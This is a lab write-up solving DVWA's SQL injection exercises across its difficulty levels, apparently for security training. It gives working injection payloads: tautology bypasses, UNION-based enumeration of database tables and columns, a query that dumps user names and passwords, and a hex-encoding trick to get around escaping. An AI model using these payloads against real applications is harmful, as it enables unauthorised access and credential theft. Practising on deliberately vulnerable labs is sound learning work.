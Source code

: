 # DVWA - SQL Injection Solution


## Low level
> In this level we can see the web doesn't filter any character.
> 
> ![](https://i.imgur.com/RA0RxD7.png)
> 
> So, we can use `' or '1' = '1` to bypass and get the all data inb SQL. 
> 
> ![](https://i.imgur.com/F5Wyop9.png)
> 
> We also can use `1' or 1=1 order by 1 #` or `1' union select 1,2 #` to guess how many column there have in the SQL. 
> Use `1' union select 1,database() #` to know what database we are. 
> 
> ![](https://i.imgur.com/AObQp2l.png)
> 
> Use `1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #` to get the table.
> 
> ![](https://i.imgur.com/x5QwtGW.png)
> 
> Use `1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #` to get the text of the table.
> 
> ![](https://i.imgur.com/vzKXgPJ.png)
> 
> Use the `1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #` to download all of data in the table.
> 
> ![](https://i.imgur.com/IZdCYXR.png)
> 

## Medium level
> In this level we can see, it use the scroll bar to select. And it use `mysql_real_escape_string` to transfer some character. So, we can use the brup suite to edit the package.
> 
> ![](https://i.imgur.com/CYYdgfT.png)
> 
> Edit the ir to `1 or 1=1` .
> 
> ![](https://i.imgur.com/08LQWu6.png)
> 
> And we can get the all of the data in SQL.
> 
> ![](https://i.imgur.com/CI1BexM.png)
> We can use the same like the low level to get the information in SQL. 
> Notice if we need to use `1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #` the `'` is transfered to `/'`. Therefore we can transfer the `user` to hex like `1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #`

## High level
> We can see in high level it use `LIMIT 1` to limit the output, but we can use `#` to skip the text after `#`.
> Then we can use the way like Low level to bypass.
> 
> ![](https://i.imgur.com/kyM4OFF.png)
> 

## Impossible level
> In this level it use the PDO and add the Anti-CSRF token to avoid the SQL injection and CSRF attack. So, we don't have any way to use the SQL injection to attack.











